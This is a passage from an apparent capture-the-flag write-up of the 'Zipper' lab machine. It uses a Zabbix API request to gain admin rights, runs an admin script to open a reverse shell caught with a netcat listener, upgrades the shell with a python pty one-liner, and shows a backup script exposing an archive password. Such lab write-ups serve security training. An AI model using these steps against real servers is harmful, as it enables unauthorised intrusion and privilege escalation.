 ```

//Just printing this here to check our params look OK.
pp.pprint(request_params)

// Send off the request.
update_resp = session.post(base_url, headers=headers, json=request_params)

//And check our results. You should see a confirmation that it updated, or an error if it didn't :(
update_info = update_resp.json()

pp.pprint(update_info)
```

And now log in as that user:
![231243965.png]({{site.baseurl}}/Images/Zipper/231243965.png)

Now we are an admin we should be able to set up our own script and call it. This should let us trigger a reverse shell.
![231473330.png]({{site.baseurl}}/Images/Zipper/231473330.png)

Go to administration>scripts>create script, and create a script like the following, the code was taken from pentest monkey, bear in mind that we need to update python to python3 in the text, as the box only has python3 installed.

Now go back to the availability report. You should be able to find an event for a server called "Zipper". Open up any event and run the script you just created.
![231407914.png]({{site.baseurl}}/Images/Zipper/231407914.png)

And BAM!
```
kali :: ~/CTFs/zipper # nc -lnvp 1337                                                                                                                         
Listening on [unknown] (family 0, port -1835784908)
Connection from 10.10.10.108 57714 received!
/bin/sh: 0: can't access tty; job control turned off
$ 
```

First up, let's upgrade that icky /bin/sh shell we have:
```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
zabbix@zipper:/$ 
```

Much better. Now let's see if we can get user.txt.
```
zabbix@zipper:/home/zapper$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
zabbix@zipper:/home/zapper$ 
```

Ah damn. But what about the utils directory:
```
zabbix@zipper:/home/zapper/utils$ cat back	
cat backup.sh 
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```
